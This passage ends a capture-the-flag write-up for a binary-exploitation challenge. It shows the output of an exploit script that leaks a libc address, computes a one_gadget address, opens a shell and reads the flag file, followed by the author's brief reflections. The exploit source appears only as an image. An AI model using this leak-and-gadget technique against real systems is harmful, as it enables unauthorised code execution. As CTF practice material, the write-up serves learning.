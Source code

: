 Binexpect is a module that wraps pexpect that you can find on github

### Profit

```
$ python sploit.py 
[+] Leaked fread addr: 0x7fc3150775e0
[+] one_gadget should be at: 0x7fc31504f320

      ▄▄▄·▄▄▌ ▐ ▄▌ ▐ ▄ ▄▄▄ .·▄▄▄▄      ▄• ▄▌.▄▄ · ▪   ▐ ▄  ▄▄ •
     ▐█ ▄███· █▌▐█•█▌▐█▀▄.▀·██▪ ██     █▪██▌▐█ ▀. ██ •█▌▐█▐█ ▀ ▪
      ██▀·██▪▐█▐▐▌▐█▐▐▌▐▀▀▪▄▐█· ▐█▌    █▌▐█▌▄▀▀▀█▄▐█·▐█▐▐▌▄█ ▀█▄
     ▐█▪·•▐█▌██▐█▌██▐█▌▐█▄▄▌██. ██     ▐█▄█▌▐█▄▪▐█▐█▌██▐█▌▐█▄▪▐█
     .▀    ▀▀▀▀ ▀▪▀▀ █▪ ▀▀▀ ▀▀▀▀▀•      ▀▀▀  ▀▀▀▀ ▀▀▀▀▀ █▪·▀▀▀▀
 ▄▄▄▄    ██▓ ███▄    █ ▓█████ ▒██   ██▒ ██▓███  ▓█████  ▄████▄  ▄▄▄█████▓
▓█████▄ ▓██▒ ██ ▀█   █ ▓█   ▀ ▒▒ █ █ ▒░▓██░  ██▒▓█   ▀ ▒██▀ ▀█  ▓  ██▒ ▓▒
▒██▒ ▄██▒██▒▓██  ▀█ ██▒▒███   ░░  █   ░▓██░ ██▓▒▒███   ▒▓█    ▄ ▒ ▓██░ ▒░
▒██░█▀  ░██░▓██▒  ▐▌██▒▒▓█  ▄  ░ █ █ ▒ ▒██▄█▓▒ ▒▒▓█  ▄ ▒▓▓▄ ▄██▒░ ▓██▓ ░
░▓█  ▀█▓░██░▒██░   ▓██░░▒████▒▒██▒ ▒██▒▒██▒ ░  ░░▒████▒▒ ▓███▀ ░  ▒██▒ ░
░▒▓███▀▒░▓  ░ ▒░   ▒ ▒ ░░ ▒░ ░▒▒ ░ ░▓ ░▒▓▒░ ░  ░░░ ▒░ ░░ ░▒ ▒  ░  ▒ ░░
▒░▒   ░  ▒ ░░ ░░   ░ ▒░ ░ ░  ░░░   ░▒ ░░▒ ░      ░ ░  ░  ░  ▒       ░
 ░    ░  ▒ ░   ░   ░ ░    ░    ░    ░  ░░          ░   ░          ░
 ░       ░           ░    ░  ░ ░    ░              ░  ░░ ░ @wapiflapi
------░------------------------------------------------░-----------------
- Powered by pexpect, works best with linux and gxf -
-------------------------------------------------------------------------
Escape character is '^]'
ls
flag.txt
password.txt
rescue
cat flag.txt
NDH{wilFupsdrossyerIvid}
```

### Conclusion

Classiq but fun challenge, I expected it to be a bit easier since it was only worth 100 points, but after all, we are here to improve our skills and not just win points. So that means that I’m not good enough in exploitation and need to work more on this!

Hope you enjoyed this post, see y’all in another article!

ark.

[//]: <> (文章所涉及到的技术点、WriteUp的链接)
[//]: <> (题目)
[//]: <> (WriteUp内容)